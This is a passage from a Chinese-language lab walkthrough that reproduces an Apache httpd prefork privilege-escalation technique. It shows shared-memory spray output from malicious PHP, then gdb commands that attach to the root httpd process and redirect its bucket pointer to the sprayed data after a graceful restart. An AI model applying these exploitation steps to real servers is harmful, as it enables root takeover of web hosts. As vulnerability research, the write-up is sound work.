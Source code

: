 ```
Spraying the shared memory start

evil_shm_start:0x7f1f62a32278
evil_shm_end:0x7f1f62a4a000
evil_shm_size:17d88
evil_shm_mid_addr:0x7f1f62a3e140
bucket:fe3ec349aa5
```

此时，共享内存中，已经被我们的恶意数据给填充。

##### 为通过gdb模拟修改bucket指向我们的恶意结构做准备

```
[root@bogon john]# ps -aux | grep httpd
root      19895  0.0  0.2 285296 10652 ?        Ss   14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19896  0.0  0.2 287512  9348 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19897  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19898  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19899  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19900  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
root      20112  0.0  0.0 112708   980 pts/2    R+   14:30   0:00 grep --color=auto httpd
[root@bogon john]# gdb attach 19895
(gdb) break child_main
Breakpoint 1 at 0x46c000: file prefork.c, line 380.
(gdb) set follow-fork-mode child
(gdb) c
```

##### 执行apachectl graceful，使其优雅重启

```
[root@bogon john]# apachectl graceful
[root@bogon john]# 
```

##### 修改my_bucket

我们将my_bucket，设置为0x7f1f62a3e140，该地址是执行恶意PHP代码时，输出的evil_shm_mid_addr

```
Continuing.

Program received signal SIGUSR1, User defined signal 1.
0x00007f1f612bdf53 in __select_nocancel () from /lib64/libc.so.6
(gdb) c
Continuing.
[New process 20155]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
[Switching to Thread 0x7f1f62ae9780 (LWP 20155)]

Breakpoint 1, child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=0) at prefork.c:380
380    `{`
(gdb) set my_bucket = 0x7f1f62a3e140
(gdb) c
Continuing.
[New process 20177]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
```